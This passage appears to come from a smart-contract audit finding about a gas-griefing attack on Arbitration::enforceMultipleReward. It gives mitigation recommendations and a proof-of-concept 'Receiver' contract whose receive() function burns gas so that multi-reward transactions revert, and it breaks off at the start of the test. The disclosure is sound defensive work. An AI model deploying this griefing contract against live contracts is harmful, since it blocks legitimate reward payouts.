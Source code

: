 
## Recommendations
I would recommend not using ```Arbitration::enforceMultipleReward``` at all. Especially in a live mainnet environment, debugging which address is causing the revert can be hard. If multiple whitehats colluded to do this attack, it could take several failed calls of ```Arbitration::enforceMultipleReward``` before removing all malicious addresses in an array. Sending a single reward during the arbitration at a time still allows for a whitehat to make this attack, but the attack is way less effective because the function call does not have the potential of having a hefty gas fee associated, and the arbiter or vault can quickly identify the address causing the revert. 
If ```Arbitration::enforceMultipleReward``` is still a function necessary for arbitration, it might make sense to have checks on whitehat addresses to prevent them from being other smart contracts. This wouldn't allow any code execution to cause transactions to revert. 
        
## Proof of concept
### PoC
The following is a PoC of the attack described above. This test was based on ```testArbSendsMultipleRewardsAndCloses``` in ```Arbitration.t.sol``` with slight changes to execute the attack. The first code snippet is the contract of the malicious whitehat that has a ```receive``` function that gets called through the execution of ``` Arbitration::enforceMultipleRewards``` (more specifically ```VaultDelegate::sendReward``` within this ``` Arbitration::enforceMultipleRewards```). A malicious whitehat could supply the address of this smart contract when deployed to do this griefing attack. The second code snippet is the test function that demonstrates the attack. 

Attack Smart contract (Named ```Receiver.sol```): 
```solidity 

pragma solidity ^0.8.18;
import {console} from "../lib/forge-std/src/console.sol";

contract Receiver {
    event Received(address caller, uint amount, string message);
    event SenderAddress(address sender);

    mapping(uint => uint) public values;

    // Function that consumes a lot of gas by writing to storage many times
    function consumeALotOfGas(uint numberOfWrites) public {
        for (uint i = 0; i < numberOfWrites; i++) {
            // Writing to storage is costly in terms of gas
            values[i] = i;
        }
    }
    // The receive function is called when Ether is sent to the contract with no data
    receive() external payable {
        // slither-disable-next-line arbitrary-send-eth,low-level-calls
        this.consumeALotOfGas(1000);
    }

    function logSender() external {
        emit SenderAddress(msg.sender);
    }

    // Function to check the contract's balance
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```
Test demonstrating the attack: 
```solidity
    function testArbSendsMultipleRewardsGriefing() public {
        uint96 referenced = 1;

```